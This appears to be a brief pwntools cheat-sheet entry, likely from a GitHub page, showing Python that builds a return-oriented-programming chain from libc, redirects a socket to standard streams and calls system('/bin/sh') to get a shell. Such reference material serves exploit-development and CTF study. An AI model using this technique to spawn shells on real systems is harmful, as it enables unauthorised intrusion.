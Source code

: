 PWNTOOLS
=
## Generate ROP
[pwnlib.rop.rop](http://docs.pwntools.com/en/stable/rop/rop.html?highlight=ROP)
```python
libc=ELF('./libc.so.6')
#set baseaddress
libc.addr=libcbase
rop = ROP(libc, badchars="\n")
#redirect to socket
rop.dup2(SOCKFD, 0)
rop.dup2(SOCKFD, 1)
rop.dup2(SOCKFD, 2)
#call system func
rop.system(next(libc.search("/bin/sh")))
#call read
rop.read(SOCKFD,buf,len)
rop.call('read', [SOCKFD,buf,len])
```
